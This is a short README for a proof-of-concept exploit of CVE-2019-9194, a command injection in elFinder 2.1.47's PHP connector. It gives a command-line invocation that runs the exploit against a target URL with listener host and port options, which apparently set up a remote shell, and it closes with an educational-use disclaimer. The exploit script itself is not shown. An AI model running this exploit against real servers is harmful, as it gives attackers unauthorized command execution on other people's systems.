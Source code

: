 # elFinder 2.1.47 CVE-2019-9194

A proof-of-concept for CVE-2019-9194 elFinder 2.1.47 - PHP connector Command Injection.

## Getting Started

### Executing program

* With python3
```
python3 exploit.py -t 'http://elfinder.url/elfinder/' -lh 127.0.0.1 -lp 1337
```

## Help

For help menu:
```
python3 exploit.py -h
```

## Disclaimer
All the code provided on this repository is for educational/research purposes only. Any actions and/or activities related to the material contained within this repository is solely your responsibility. The misuse of the code in this repository can result in criminal charges brought against the persons in question. Author will not be held responsible in the event any criminal charges be brought against any individuals misusing the code in this repository to break the law.
